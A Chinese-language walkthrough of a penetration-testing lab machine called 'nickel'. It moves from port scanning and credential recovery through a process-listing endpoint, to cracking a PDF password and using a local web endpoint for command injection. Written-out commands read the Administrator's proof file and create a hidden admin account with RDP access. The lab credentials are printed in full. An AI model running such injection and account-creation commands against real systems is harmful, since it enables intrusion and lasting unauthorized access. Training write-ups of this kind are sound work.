



# 信息收集

## nmap


## 8089端口&&33333端口

8089端口是一个DevOps的面板，点击其中的按钮无法访问


查看源码，是跳到一个ip地址的33333端口，这个ip是写死的，应该是要跳转到当前靶机的33333端口，并且是get访问方式


直接访问33333端口显示无效的token



尝试访问33333端口的这三个目录，以get方式提交时回显不能以get提交，修改请求方法，以post请求


以post请求时，`/list-running-procs`有回显，回显了当前进程，其他两个回显了`Not Implemented`


其中一个进程中包含了一个账号密码，密码是base64加密，解密之后得到

```
ariah:NowiseSloopTheory139
```

## ftp

该用户可以成功登录到ftp，ftp下有一个pdf文件，下载到本地分析


该文件是加密的



使用john破解


得到正确密码`ariah4168`


nickel是该靶机的名称，前面通过nmap扫到的80端口无法直接访问，这里应该指的就是靶机的80端口


smb也可以通过该用户连接，但是共享的信息该用户没有权限访问

rpc该用户也可以连接，也没有有用的信息

# ssh-getshell/提权

该用户可以直接ssh连接，通过ssh连接之后就可以拿到local.txt

前面说到该靶机的80端口开放服务但是无法访问，我们尝试在靶机内部访问




该节点中是有内容的，上面pdf中给出的第一个应该就是要问号后面加get提交的参数，可以成功命令执行，并且我还尝试了backup目录，但是访问失败


该节点是以管理员的权限运行命令

可以直接打印proof.txt

```
curl http://localhost/?type%20C%3a%5cUsers%5cAdministrator%5cDesktop%5cpro
of.txt
```

也可以创建一个新用户赋予管理员权限和远程桌面组

```
#To create a user named api with a password of Dork123!
net user api Dork123! /add

#To add to the administrator and RDP groups
net localgroup Administrators api /add
#并且加入远程桌面组
net localgroup 'Remote Desktop Users' api /add

#url编码
net%20user%20api%20Dork123!%20%2Fadd

net%20localgroup%20Administrators%20api%20%2Fadd

net%20localgroup%20%27Remote%20Desktop%20Users%27%20api%20%2Fadd
```


然后通过xfreerdp连接远程桌面

```
xfreerdp /u:api /p:Dork123! /v:192.168.133.99
```

